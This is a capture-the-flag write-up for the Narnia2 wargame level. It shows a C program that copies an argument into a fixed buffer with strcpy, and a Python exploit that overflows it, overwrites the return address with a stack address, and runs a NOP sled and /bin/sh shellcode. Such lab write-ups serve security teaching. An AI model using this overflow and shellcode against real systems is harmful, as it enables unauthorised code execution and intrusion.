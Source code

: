 # narnia2

## Objective
Basic ROP exploit: overflow the buffer, set the EIP to point to the stack, and
execute shellcode.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

## Solution
Run the following python exploit:
```python
#!/usr/bin/env python

import struct

padding = 'A' * 132                     # overflow the buffer and eip
new_eip = struct.pack('I', 0xffffd630)  # change eip to point to stack
nops = '\x90' * 80                      # nop sled and shellcode
shell = '\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68'

print padding + new_eip + nops + shell
```
